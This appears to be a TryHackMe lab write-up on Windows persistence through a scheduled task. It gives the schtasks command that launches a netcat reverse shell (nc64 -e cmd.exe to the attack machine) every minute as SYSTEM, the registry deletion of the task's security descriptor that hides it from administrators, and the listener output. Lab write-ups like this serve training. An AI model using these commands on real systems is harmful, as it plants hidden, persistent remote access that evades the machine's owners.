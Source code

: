 
# Abusing Scheduled Tasks

## Task Scheduler

1. Started this task's machine
2. `schtasks /create /sc <FREQUENCY TYPE> /mo <FREQUENCY> /tn <TASK NAME> /tr "<NETCAT LOCATION> -e cmd.exe <ATTACK MACHINE IP> <PORT NUMBER>" /ru <USER ACCOUND>` from the compromised Windows machine to create and run a new scheduled task that'll try creating a reverse shell by attempting to connect to a netcat listener on our attack machine at the specified port in a specified frequency 
```PowerShell
C:\Users\Administrator>schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.39.232 9999" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```
3. `schtasks /query /tn <TASK NAME>` from the compromised Windows machine to retrieve and display onto our terminal the details of the task that we just created to verify that our task is running as intended, which it was 
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
THM-taskbackdoor                         7/7/2023 12:54:00 AM   Ready
```
4. `c:\tools\pstools\PsExec64.exe -s -i regedit` from the compromised Windows machine to run the Windows Registry Editor with elevated privileges and in the context of the SYSTEM account, which will allow us to delete our created task's Security Descriptor (**SD**) that's located in the **HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree** registry, which will end up making it invisble to any user in the system since deleting a task's SD is equivalent to disallowing all users' access to the scueduled task, including administrators
```PoweShell
C:\Users\Administrator>c:\tools\pstools\PsExec64.exe -s -i regedit

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PsExec64.exe%20-s%20-i%20regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20After%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

5. `schtasks /query /tn <TASK NAME>` from the compromised Windows machine to retrieve and display onto our terminal the details of the task that we just created to see if it's now hidden after deleting its SD, which it was since our system couldn't find the task 
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor
ERROR: The system cannot find the file specified.
```
6. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener to listen for any inbound connections, which ended up receiving a reverse shell connection that was spawned in by the scheduled task we created on the compromised Windows machine
```Bash
root@ip-10-10-39-232:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.61.182 49841 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
